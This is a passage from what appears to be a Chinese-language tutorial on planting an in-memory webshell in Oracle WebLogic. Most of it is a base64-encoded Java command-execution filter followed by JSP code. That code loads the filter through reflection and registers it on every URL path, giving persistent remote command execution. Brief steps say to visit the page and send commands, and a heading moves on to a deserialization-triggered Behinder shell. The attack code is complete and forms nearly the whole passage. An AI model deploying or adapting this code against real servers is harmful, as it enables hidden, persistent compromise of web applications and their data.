TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAAdoYXNOZXh0AQADKClaAQAEbmV4dAEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQATamF2YS9pby9QcmludFdyaXRlcgEABXdyaXRlAQAFZmx1c2gBAEAoTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOylWACEAHQAeAAEAHwAAAAQAAQAgACEAAQAiAAAALwABAAEAAAAFKrcAAbEAAAACACMAAAAGAAEAAAANACQAAAAMAAEAAAAFACUAJgAAAAEAJwAoAAIAIgAAAEEAAgACAAAACbIAAhIDtgAEsQAAAAIAIwAAAAoAAgAAABAACAARACQAAAAWAAIAAAAJACUAJgAAAAAACQApACoAAQArAAAABAABACwAAQAtAC4AAgAiAAABXgADAAkAAACGsgACEgW2AAQrwAAGOgQZBBIHuQAIAgDGAGa7AAlZEgq3AAs6BRkFGQQSB7kACAIAtgAMV7gADRkFtgAOtgAPtgAQOga7ABFZGQa3ABISE7YAFDoHGQe2ABWZAAsZB7YAFqcABRIXOggsuQAYAQAZCLYAGSy5ABgBALYAGrEtKyy5ABsDALEAAAADACMAAAA2AA0AAAAVAAgAFwAOABgAGgAZACUAGgA0ABsARAAcAFQAHQBoAB4AcwAfAHwAIAB9ACMAhQAkACQAAABcAAkAJQBYAC8AMAAFAEQAOQAxADIABgBUACkAMwA0AAcAaAAVADUANgAIAAAAhgAlACYAAAAAAIYANwA4AAEAAACGADkAOgACAAAAhgA7ADwAAwAOAHgAPQA+AAQAPwAAACgAA/8AZAAIBwBABwBBBwBCBwBDBwBEBwBFBwBGBwBHAABBBwBI+AAWACsAAAAGAAIASQAsAAEASgAhAAEAIgAAADcAAgABAAAACbIAAhIctgAEsQAAAAIAIwAAAAoAAgAAACgACAApACQAAAAMAAEAAAAJACUAJgAAAAEASwAAAAIATA==";
    byte[] decode_class = new BASE64Decoder().decodeBuffer(encode_class);
    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
    defineClass.setAccessible(true);
    Class filter_class = (Class) defineClass.invoke(webAppServletContext.getClassLoader(), decode_class, 0, decode_class.length);
    Field classLoader = webAppServletContext.getClass().getDeclaredField("classLoader");
    classLoader.setAccessible(true);
    ClassLoader  classLoader1  =(ClassLoader)classLoader.get(webAppServletContext);

    Field cachedClasses = classLoader1.getClass().getDeclaredField("cachedClasses");
    cachedClasses.setAccessible(true);
    Object cachedClasses_map = cachedClasses.get(classLoader1);
    Method get = cachedClasses_map.getClass().getDeclaredMethod("get", Object.class);
    get.setAccessible(true);
    if (get.invoke(cachedClasses_map, "cmdFilter") == null) {

    Method put = cachedClasses_map.getClass().getMethod("put", Object.class, Object.class);
    put.setAccessible(true);
    put.invoke(cachedClasses_map, "cmdFilter", filter_class);

    Field filterManager = webAppServletContext.getClass().getDeclaredField("filterManager");
    filterManager.setAccessible(true);
    Object o = filterManager.get(webAppServletContext);

    Method registerFilter = o.getClass().getDeclaredMethod("registerFilter", String.class, String.class, String[].class, String[].class, Map.class, String[].class);
    registerFilter.setAccessible(true);
    registerFilter.invoke(o, "test", "cmdFilter", new String[]{"/*"}, null, null, null);


    response.getWriter().write("done!!!");
    }

    } catch (NoSuchFieldException e) {
    e.printStackTrace();
    } catch (ClassNotFoundException e) {
    e.printStackTrace();
    } catch (IllegalAccessException e) {
    e.printStackTrace();
    } catch (NoSuchMethodException e) {
    e.printStackTrace();
    } catch (InvocationTargetException e) {
    e.printStackTrace();
    }

%>

```

访问JSP页面，让服务器执行恶意代码：


发送命令，可返回执行结果：


### weblogic通过反序列化漏洞触发冰蝎内存马

